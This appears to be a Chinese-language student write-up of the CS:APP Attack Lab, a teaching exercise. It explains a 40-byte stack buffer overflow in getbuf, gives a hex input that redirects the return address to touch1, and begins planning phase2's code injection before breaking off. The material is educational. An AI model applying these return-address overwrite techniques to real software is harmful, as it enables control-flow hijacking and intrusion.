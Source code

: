 一个比较明显的漏洞是，缓冲区只有40字节，所以只要输入超过40字节，多余的输入便会写入缓冲区外的栈帧部分。对于`getbuf`而言，缓冲区后的8字节是函数的返回地址，因此可以通过刻意构造写入的第41-48字节内容，篡改函数的返回地址。

本phase中我们要非法访问`touch1`，而其地址为`0x4017c0`，因此可以如下构造phase1的输入：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

成功：

![[Pasted image 20240731085520.png]]

### phase2

phase2要求执行这个函数：

```c
void touch2(unsigned val)
{
	vlevel = 2; /* Part of validation protocol */
	if (val == cookie) {
		printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2);
	} else {
		printf("Misfire: You called touch2(0x%.8x)\n", val);
		fail(2);
	}
	exit(0);
}
```

与`touch1`不同的是，`touch2`需要传入一个正确的参数，否则即使调用了也不成功。

Writeup中给的建议：
- 有可能需要在输入中自行指定返回地址，这样`getbuf`返回时会指向它。
- 函数第一个参数存储在`%rdi`寄存器中。
- 注入代码应当至少实现传入参数，随后通过`ret`指令将控制权转至`touch2`的第一条指令。
- 不推荐使用`jump`或`call`，因为这些指令的目标地址编码难于生成。

思路：
- 输入的前40字节用于注入需要执行的指令。
- 第41-48字节用于注入第一次返回地址（从`getbuf`返回到注入指令处）
- 第49-56字节用于注入第二次返回地址（从注入指令处返回到`touch2`）

通过GDB调试发现，`getbuf`中的输入缓冲区首地址是`0x5561dc78`。这也是第一次返回地址，该地址将会被`ret`指令误当作代码返回地址，从而到达我们注入的代码处：

![[Pasted image 20240731102212.png]]

计划注入这2条指令：
